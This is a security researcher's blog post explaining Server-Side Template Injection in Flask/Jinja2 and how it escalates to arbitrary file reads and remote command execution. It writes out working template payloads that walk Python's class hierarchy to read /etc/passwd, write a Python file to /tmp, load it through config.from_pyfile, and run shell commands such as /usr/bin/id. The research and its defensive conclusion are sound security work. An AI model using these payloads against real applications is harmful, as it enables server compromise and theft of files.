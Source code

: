 title: 'Exploring SSTI in Flask/Jinja2 - Part 2'
publish: True
categories: [application security]

I recently wrote [this article](/2016/03/09/exploring-ssti-flask-jinja2/) about exploring the true impact of Server-Side Template Injection (SSTI) in applications leveraging the Flask/Jinja2 development stack. My initial goal was to find a path to file or operating system access. I was previously unable to do so, but thanks to some feedback on the initial article, I have since been able to achieve that goal. This article is the result of the additional research.

### The Nudge

In response to the initial article, [Nicolas G](https://twitter.com/_qll_) published the following tweet.

<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr"><a href="https://twitter.com/LaNMaSteR53">@LaNMaSteR53</a> <a href="https://twitter.com/albinowax">@albinowax</a> <a href="https://twitter.com/garethheyes">@garethheyes</a> {{&#39;&#39;.__class__.mro()[1].__subclasses__()[46](&#39;touch /tmp/rce&#39;,shell=True)}} (may be version-dependent)</p>&mdash; Nicolas G (@_qll_) <a href="https://twitter.com/_qll_/status/707714873774448640">March 9, 2016</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

If you play with this payload a bit, you'll quickly notice that it doesn't work. There are several good reasons for that, which I'll get to shortly. The key takeaway, however, is that this payload uses several very important introspection utilities that we left out in our previous research: the `__mro__` and `__subclasses__` attributes.

DISCLAIMER: The following explanations are very high level. I have no desire to act like I know more about this stuff than I do. Most of the time when I'm dealing with obscure parts in the guts of a language/framework, I just try stuff to see if it gives me some desired behavior, but I don't always know why the end result is what it is. I am still learning the "why" behind these attributes, but I at least wanted to give you some sort of intro.

The MRO in `__mro__` stands for Method Resolution Order, and is defined [here](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__mro__) as, "a tuple of classes that are considered when looking for base classes during method resolution." The `__mro__` attribute consists of the object's inheritance map in a tuple consisting of the class, its base, its base's base, and so on up to `object` (if using new-style classes). It is an attribute of each object's metaclass, but is a truly hidden attribute, as Python explicitely leaves it out of `dir` output (see [Objects/object.c at line 1812](http://hg.python.org/cpython/file/3a1db0d2747e/Objects/object.c#l1812)) when conducting introspection.

The `__subclasses__` attribute is defined [here](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__subclasses__) as a method that "keeps a list of weak references to its immediate subclasses." for each new-style class, and "returns a list of all those references still alive."

Greatly simplified, `__mro__` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. So what's the impact on the search of a greater exploit for SSTI in Flask/Jinja2? By starting with a new-type object, e.g. type `str`, we can crawl up the inheritance tree to the root `object` class using `__mro__`, then crawl back down to every new-style object in the Python environment using `__subclasses__`. Yes, this gives us access to every class loaded in the current python environment. So, how do we leverage this new found capability?

### Exploitation

There are a few things to consider here. The Python environment will consist of:

1. Things native to all Flask applications.
2. Things custom to the target application.

We are after a universal exploit, so we want to set up our test environment to be as close to native Flask as possible. The more we add to the application in the way of imported libraries and 3rd party modules, the less universal our attack vector will become. Our previous proof-of-concept application was a good candidate for this, so let's continue to use it.

The cool thing about what we're about to do is that it requires no modification of the target source in order to discover an exploit vector. In the previous article, we had to add some functionality to the vulnerability in order to conduct introspection. This is no longer required.

The first thing we want to do is is select a new-style object to use for accessing the `object` base class. We can simply use `''`, a blank string, object type `str`. Then, we can use the `__mro__` attribute to access the object's inherited classes. Inject `{{ ''.__class__.__mro__ }}` as a payload into the SSTI vulnerability.

[![](/images/posts/ssti_flask_p2_1.png)](/images/posts/ssti_flask_p2_1.png)

We can see the previously discussed tuple being returned to us. Since we want go back to the root `object` class, we'll leverage an index of `2` to select the class type `object`. Now that we're at the root object, we can leverage the `__subclasses__` attribute to dump all of the classes used in the application. Inject `{{ ''.__class__.__mro__[2].__subclasses__() }}` into the SSTI vulnerability.

[![](/images/posts/ssti_flask_p2_2.png)](/images/posts/ssti_flask_p2_2.png)

As you can see, there is a lot of stuff here. In the target application I am using, there are 572 accessible classes. This is where things get tricky, and why the tweeted payload mentioned above doesn't work. Remember, not every application's Python environment will look the same. The goal is to find something useful that leads to file or operating system access. It is probably not all that uncommon to find classes like `subprocess.Popen` used somehere in an application that may not be otherwise exploitable, such as the application affected by the tweeted payload, but from what I've found, nothing like this is available in native Flask. Luckily, there is capability in native Flask that allows us to achieve similar behavior.

If you comb through the output of the previous payload, you should find the `<type 'file'>` object. This is the key to file system access. While `open` is the builtin function for creating file objects, the `file` class is also capable of instantiating file objects, and if we can instantiate a file object, then we can use methods like `read` to extract the contents. To demonstrate this, find the index of the `file` class and inject `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}` where `40` is the index of the `<type 'file'>` object in my environment.

[![](/images/posts/ssti_flask_p2_3.png)](/images/posts/ssti_flask_p2_3.png)

So, we've now demonstrated that arbirtrary file access is possible via SSTI in Flask/Jinja2, but we're not done yet. My goal in this was Remote Code/Command Execution.

The previous article referenced several methods of the `config` object that load objects into the Flask configuration environment. One such method was the `from_pyfile` method. Below is the code for the `from_pyfile` method of the `Config` class, `flask/config.py`.

```python
    def from_pyfile(self, filename, silent=False):
        """Updates the values in the config from a Python file.  This function
        behaves as if the file was imported as module with the
        :meth:`from_object` function.

        :param filename: the filename of the config.  This can either be an
                         absolute filename or a filename relative to the
                         root path.
        :param silent: set to `True` if you want silent failure for missing
                       files.

        .. versionadded:: 0.7
           `silent` parameter.
        """
        filename = os.path.join(self.root_path, filename)
        d = imp.new_module('config')
        d.__file__ = filename
        try:
            with open(filename) as config_file:
                exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
        except IOError as e:
            if silent and e.errno in (errno.ENOENT, errno.EISDIR):
                return False
            e.strerror = 'Unable to load configuration file (%s)' % e.strerror
            raise
        self.from_object(d)
        return True
```

There's a couple of interesting things here. The most obvious is the use of the `compile` function against the contents of a file whose path is provided as a parameter. This would come in handy if we had a way to write files to the operating system, no? Well, as we just discussed, we do! We can use the aforementioned `file` class to not only read files, but write them to world writeable locations on the target server. Then, we can call the `from_pyfile` method through the SSTI vulnerability to compile the file and execute the contents. This is a 2 staged attack. First, inject something like `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('<malicious code here>'') }}` into the SSTI vulnerability. Then, invoke the compilation process by injecting `{{ config.from_pyfile('/tmp/owned.cfg') }}`. The code will execute upon compilation. Remote Code Execution achieved.

But let's take it a step even further. While running code is great and all, having to go through a multi-step process for each block of code we want to run is tedious. Let's leverage the `from_pyfile` method for its intended purpose and add something useful to the `config` object. Inject `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}` into the SSTI vulnerability. This will write a file to the remote server that, when compiled, imports the `check_output` method of the `subprocess` module and sets it to a variable named `RUNCMD`, which, if you recall from the previous article, will get added to the Flask `config` object virtue of it being an attribute with an upper case name.

[![](/images/posts/ssti_flask_p2_4.png)](/images/posts/ssti_flask_p2_4.png)

Inject `{{ config.from_pyfile('/tmp/owned.cfg') }}` to add the new item to the `config` object. Notice the difference between the following before and after images.

[![](/images/posts/ssti_flask_p2_5.png)](/images/posts/ssti_flask_p2_5.png)

[![](/images/posts/ssti_flask_p2_6.png)](/images/posts/ssti_flask_p2_6.png)

Now we can invoke the new configuration item to run commands on the remote operating system. Demonstrate this by injecting `{{ config['RUNCMD']('/usr/bin/id',shell=True) }}` into the SSTI vulnerability.

[![](/images/posts/ssti_flask_p2_7.png)](/images/posts/ssti_flask_p2_7.png)

Remote Command Execution achieved.

### Conclusion

We can now close the book on escaping the Flask/Jinja2 template sandbox and conclude that the impact of SSTI in Flask/Jinja2 environments is substantial. I'd also like to point out that this is largely the result of the way Python works, and not so much the fault of the Flask framework. I'd be willing to bet that all of the Python MVC/MTV web frameworks suffer from similar exploitation vectors. Ultimately, it is up to the developers using these frameworks to properly follow template design best practices and ensure that their applications do not blindly trust user-supplied data.
